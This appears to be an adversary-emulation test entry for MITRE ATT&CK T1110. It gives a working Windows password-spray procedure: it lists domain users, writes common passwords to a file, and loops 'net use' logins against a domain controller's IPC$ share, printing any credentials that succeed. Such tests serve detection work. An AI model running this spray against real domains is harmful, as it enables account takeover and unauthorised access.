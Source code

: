 # Brute Force

MITRE ATT&CK Technique: [T1110](https://attack.mitre.org/wiki/Technique/T1110)

## net.exe

### Password Spray


    net user /domain > DomainUsers.txt
    echo "Password1" >> pass.txt
    echo "1q2w3e4r" >> pass.txt

Execute:

    @FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\COMPANYDC1\IPC$ > NUL
